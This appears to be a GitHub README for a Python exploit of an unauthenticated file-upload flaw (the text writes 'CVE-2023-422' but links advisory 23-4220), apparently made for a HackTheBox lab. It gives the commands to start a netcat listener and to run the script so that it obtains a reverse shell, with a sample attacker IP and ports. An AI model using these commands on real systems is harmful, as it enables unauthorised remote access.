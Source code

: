 # Prerequisites

```
pip install requests
```

# Information

The python script uses the vulnerability [CVE-2023-422](https://starlabs.sg/advisories/23/23-4220/) to upload a file into the server and uses that file to send a reverse shell to the netcat listener and all this can be done without being authenticated. However, you will need to follow the following steps to successfully use the python script.

**Start netcat listener:**

```bash
nc -lnvp 4444
```

**Executing Python Script (Example):**

```bash
python3 main.py -u "http://lms.permx.htb" -p "80" -ni "10.10.16.24" -np "4445"
```

# More...

Please leave a star if the following exploit was useful :)
